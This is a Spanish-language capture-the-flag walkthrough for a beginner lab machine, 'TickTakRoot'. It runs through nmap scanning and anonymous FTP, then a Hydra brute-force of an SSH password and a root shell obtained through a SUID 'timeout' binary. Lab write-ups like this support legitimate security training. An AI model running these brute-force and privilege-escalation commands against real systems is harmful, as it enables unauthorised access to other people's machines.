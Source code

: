 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# TickTakRoot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (8) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.66
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (9) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (13) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/imagen (12) (1).png" alt=""><figcaption></figcaption></figure>

Entramos al servicio **FTP** de forma anónima por si encontramos algo relevante.

<figure><img src="../../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido y el directorio **login** que dentro tiene un archivo de texto por lo que nos los descargamos a nuestra máquina local para ver el contenido.

<figure><img src="../../.gitbook/assets/imagen (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (2) (1).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un par de nombres que pueden ser posibles usuarios pero si nos damos cuenta cuando nos hemos conectado por **FTP** se nos muestra el nombre de **Robin** que será el usuario.&#x20;

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l robin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.66**.

<figure><img src="../../.gitbook/assets/imagen (7) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **robin**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh robin@192.168.1.66
```

<figure><img src="../../.gitbook/assets/imagen (3) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (4) (1).png" alt=""><figcaption></figcaption></figure>

El comando `timeout` se utiliza para ejecutar un comando y finalizarlo si no se completa en un tiempo específico. Sin embargo, este comando puede ser vulnerable a ciertas técnicas de explotación que permiten escalar privilegios. Para más información sobre cómo explotar el comando `timeout` y ejemplos prácticos, puedes consultar la página de [GTFObins](https://gtfobins.github.io/gtfobins/timeout/).

```bash
/usr/bin/timeout_suid 7d /bin/sh -p
```

<figure><img src="../../.gitbook/assets/imagen (6) (1).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
